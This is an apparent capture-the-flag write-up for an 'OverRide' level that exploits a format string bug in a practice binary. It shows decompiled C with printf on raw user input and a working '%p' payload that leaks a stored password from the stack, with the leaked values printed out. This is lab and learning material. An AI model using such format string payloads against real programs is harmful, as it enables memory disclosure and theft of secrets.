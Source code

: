 # Level 02

Once logged in, you will see a binary.

```
[???]$ ssh localhost -p 4242 -l level02         ✔
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level02@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02

level02@OverRide:~$ls
level02
level02@OverRide:~$
```

Let's run the program.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: aaaaaaaaaaaaaa
--[ Password: bbbbbbbbbbbbbbbbbbbb
*****************************************
aaaaaaaaaaaaaa does not have access!
level02@OverRide:~$
```

By decompiling the source code, it first open the file of the token of level 3, and asks for input from the user. (apparently this doesn't seem it checks whether the username is right or not)
If the input doesn't match with the content of the password (the flag for level03), this will print out user name directly from the input taken.

```
	[...]
    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\");
    puts("| You must login to access this system. |");
    puts("\**************************************/");
    printf("--[ Username: ");
    // 0x64 = 100, stdin = 1
    fgets(&buffer_username, 0x64, stdin);	<- here is the part taking input from stdin
	....
	if (strncmp(&buffer_password_file, &buffer_password_input, 41) == 0) {
        printf("Greetings, %s!\n", &buffer_username);
        system("/bin/sh");
        return (0);
    } else {
        printf(&buffer_username);			<- here is the part prints the output
        puts(" does not have access!");
        exit(1);
    }
```

Remember, if format string is only sent to the function `printf()`, it will just prints the value off from the memory(stack) which is vulnerable.

Also, since the variables are declared on the stack,

```
	int main(int arg0, int arg1) {
    FILE	*fs;
    size_t	read_count;
    char	buffer_username[100];
  	char	buffer_password_file[42];
  	char	buffer_password_input[100];
```

the values are stored next to each other, which means, there is a way to access for getting the value.

Let's try and see if the value can be get

(By using %p, instead of %x, will print out the pointer to? the address).

```
level02@OverRide:~$ python -c 'print "%p "*100 + "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4a0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe698 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0x2c3000 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

we can get the password value, `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d` (but reverse endianness order)

XXXXXXXXXXXX
